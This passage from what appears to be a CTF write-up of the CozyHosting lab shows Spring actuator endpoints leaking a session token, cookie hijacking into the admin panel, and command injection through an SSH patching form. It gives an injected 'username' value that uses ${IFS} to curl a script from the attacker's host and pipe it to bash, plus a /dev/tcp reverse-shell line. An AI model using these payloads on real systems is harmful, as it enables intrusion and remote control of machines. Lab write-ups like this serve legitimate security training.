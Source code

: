 We arrive at the /actuator/mappings endpoint, which lists application mappings. Among these, we notice a route to a ‘sessions’ endpoint, potentially revealing active session information.

![mappings.png](/img/cozyhosting_img/mappings.png)

## Initial access

On this actuator endpoint, rather than getting ****just**** usernames, we are given what is likely a session token for a user named `kanderson`

![sess](/img/cozyhosting_img/sessions.png)

I had already replaced my assigned cookie with kanderson's in Chrome in the screenshot above, but the concept remains the same.

Impersonating `kanderson`, we can go back to the login page and refresh it to be redirected to the admin dashboard. Here we see an automatic patching tool for an `ssh` service.

![admin-panel.png](/img/cozyhosting_img/admin-panel.png)

Trying to create a direct connection back to our machine throws a timeout error, even with `sshd` running - maybe on account of a private key mismatch (though it was probably not intended to ever *actually* function considering it was purpose-built for a CTF), but we can tell from the error URL parameters that the app is running `ssh` commands directly from a shell:

![ssh-params](/img/cozyhosting_img/ssh-params.png)

Strings from a `ssh` shell error

![redirect](/img/cozyhosting_img/redirect-showing-bash.png)

Confirmed by the error output, which contains the entire output of a `ssh` error

## Execution

So it would seem that not only are we executing a direct command onto the target system, but the automatic patching tool also doesn't escape malicious strings. It *does* execute our input prepended with `ssh`, but this is pretty trivial to bypass.

The solution I used here was to write a reverse shell script to a file and serve it over a python `http.server`. We can then `curl` its contents from the CMS, and finally pipe to bash to execute it.

This task was slightly more challenging than writing this as a URL-safe sequence because character encodings such as %20 or + disrupted our commands upon reaching the shell.
However, we can use the shell variable `${IFS}`, which will evaluate out to the tab, space, and newline characters, allowing us to effectively indicate the border of each command or argument.

```bash
host=n&username=%3bcurl${IFS}<http://10.10.14.40:9990/hello.sh|/bin/bash%3b${IFS}>
```

`$ cat hello.sh`

```bash
/bin/bash -i >& /dev/tcp/10.10.14.40/9999 0>&1
```
